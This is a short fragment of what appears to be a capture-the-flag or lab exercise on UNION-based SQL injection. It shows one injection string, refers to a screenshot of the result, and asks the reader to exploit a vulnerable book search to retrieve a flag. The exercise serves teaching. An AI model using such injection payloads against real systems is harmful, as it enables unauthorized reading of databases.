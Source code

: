<pre><div>' union select <span>'</span><span>-1</span><span>''</span><span>union select 1,2,3,4-- -</span></div></pre>

Injecting the string above will return the page seen here:

![](https://i.imgur.com/TT5m6D1.png)

### Task

Use what you learned about UNION-based SQL injection and exploit the vulnerable book search function to retrieve the flag.
